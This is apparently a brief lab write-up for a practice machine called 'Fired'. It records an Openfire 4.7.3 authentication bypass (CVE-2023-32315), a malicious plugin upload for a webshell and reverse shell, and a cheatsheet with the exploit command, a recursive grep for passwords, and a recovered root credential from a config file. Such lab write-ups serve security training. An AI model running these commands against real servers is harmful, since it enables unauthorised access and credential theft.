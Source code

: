 # Fired \[Inter]

## Report

Openfire 4.7.3 is vulnerable to auth bypass and we can login with a custom user. Uploading a malicious plugin gives us a webshell and allows us to obtain a reverse shell too. Find the openfire install directory and recursively look for a password/config file. We find 'openfire.script' which exposes creds for root.

### Hint

dont blame me if the box isnt responsive ffs. finding the password was pretty cool tho but i lost my cool by that point

## Cheatsheet

```
python3 CVE-2023-32315.py -u http://192.168.55.96:9090
find / -type d -name openfire 2>/dev/null
grep -Ri 'password' /usr/share/openfire 
```

## Loot

### Enumeration

```
22 SSH
9090/tcp open hadoop-datanode Apache Hadoop
9091/tcp open  ssl/hadoop-tasktracker Apache Hadoop
```

#### 9090

Openfire, Version: 4.7.3

### Attack Vectors

Auth bypass - CVE-2023-32315

### PrivEsc

{% code title="find / -type d -name openfire 2>/dev/null" %}
```
/usr/share/openfire
/usr/share/doc/openfire
/var/log/openfire
/var/lib/openfire
/home/openfire
/etc/openfire
```
{% endcode %}

`/usr/share/openfire/embedded-db/openfire.script`

`INSERT INTO OFPROPERTY VALUES('mail.smtp.password','OpenFireAtEveryone',0,NULL)`

### Creds

root:`OpenFireAtEveryone`

### Proof

{% embed url="https://github.com/miko550/CVE-2023-32315" %}

{% embed url="https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT" %}
